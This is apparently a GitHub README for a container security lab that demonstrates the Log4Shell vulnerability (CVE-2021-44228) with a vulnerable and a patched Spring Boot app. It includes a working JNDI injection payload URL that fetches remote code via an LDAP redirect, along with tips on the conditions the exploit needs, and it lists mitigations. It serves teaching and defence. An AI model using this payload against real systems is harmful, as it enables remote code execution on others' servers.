

# 🔒 Log4Shell Vulnerable Demo (CVE-2021-44228)

This project demonstrates how a vulnerable Java application using Log4j 2.14.1 can be exploited via JNDI injection to achieve Remote Code Execution (RCE), and how it can be fixed.

---

## 🔥 What This Demonstrates

- A Spring Boot app using **Log4j 2.14.1**
- Java runtime **1.8.0_131** (vulnerable version)
- `LDAPRefServer` (from [marshalsec](https://github.com/mbechler/marshalsec)) simulating a malicious LDAP redirect
- A custom `Exploit.class` that triggers RCE when loaded

---

## 🛠️ Project Structure

```
.
├── vulnerable
│   ├── web
│   │   ├── src
│   │   │   └── main
│   │   │       ├── java
│   │   │       │   └── com
│   │   │       │       └── example
│   │   │       │           ├── Application.java
│   │   │       │           └── LogController.java
│   │   │       └── resources
│   │   │           └── log4j2.xml
│   │   ├── Dockerfile
│   │   └── pom.xml
│   ├── ldap
│   │   ├── Dockerfile
│   │   └── Exploit.java
│   └── docker-compose.yml
├── fixed
│   ├── web
│   │   ├── src
│   │   │   └── main
│   │   │       ├── java
│   │   │       │   └── com
│   │   │       │       └── example
│   │   │       │           ├── Application.java
│   │   │       │           └── LogController.java
│   │   │       └── resources
│   │   │           └── log4j2.xml
│   │   ├── Dockerfile
│   │   └── pom.xml
│   └── docker-compose.yml
```

---

## 📚 Overview

- `vulnerable/` contains an intentionally insecure app using Log4j 2.14.1 and Java 8u131.
- `fixed/` contains the mitigated version using Eclipse Temurin Java 17, Log4j 2.17+, and input validation.

---

## 🧩 How It Works

- The vulnerable app logs attacker-controlled input via Log4j.
- An LDAP server (running via Marshalsec) redirects the JNDI lookup to an HTTP server that serves a malicious `Exploit.class`.
- If vulnerable, the class is fetched and executed — demonstrating Remote Code Execution (RCE).

---

## 🛡️ Mitigations in Fixed Version

- Updated Log4j to a non-vulnerable version (2.17+).
- Replaced Java with `eclipse-temurin:17-jdk-alpine`.
- Disabled JNDI features implicitly via newer Log4j versions.
- Added input validation to block JNDI payloads.

---

## ⚙️ Running the Exploit Demo

```bash
cd vulnerable
docker compose up --build
```

Then visit:

```
http://localhost:8080/log?input=${jndi:ldap://ldap:1389/Exploit}
```

You should see a successful lookup followed by RCE confirmation in the logs.

---

## ✅ Confirm Exploit Execution

```bash
docker exec vulnerable-web-1 ls /tmp | grep pwned
```

You should see `pwned`, indicating the Exploit class executed.

---

## ✅ Success Indicators

- `💥 Exploit triggered` message printed from `Exploit.class`
- LDAP log shows redirect to Exploit.class
- Log4j version: 2.14.1
- Java version: 1.8.0_131

---

## ❌ Common Pitfalls

- Java version too new (must be Java ≤ 8u191 for exploit to work)
- `trustURLCodebase=false` prevents loading remote class (must be true or unset)
- Using Logback instead of Log4j

---

## 🔁 Exploit Flow



---

## 🔥 Exploit Explanation

### CVE-2021-44228 — Log4Shell

A flaw in Log4j 2.14.1 allows attackers to send crafted input that triggers a JNDI lookup, fetching malicious code from an attacker-controlled server.

---

## 🛡️ Mitigations

| Mitigation | Description |
|------------|-------------|
| **Upgrade Log4j** | Use version 2.17.0+ |
| **Upgrade Java** | Use Java ≥ 8u191 |
| **Disable Lookups** | `-Dlog4j2.formatMsgNoLookups=true` |
| **Block Remote Codebases** | `-Dcom.sun.jndi.ldap.object.trustURLCodebase=false` |
| **Input Sanitization** | Avoid logging unsanitized user input |

---

## 📚 References

- [Apache Logging Services](https://logging.apache.org/log4j/2.x/security.html)
- [NIST CVE-2021-44228 Detail](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Log4j CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
- [Marshalsec LDAP server](https://github.com/mbechler/marshalsec)

---

## 🎓 Educational Purposes Only

**⚠️ This project is for educational and demonstration purposes only. Do not use in production.**

---

## 🧑‍💻 Author

**Timothy Brennan**  
For educational use in container security labs.

---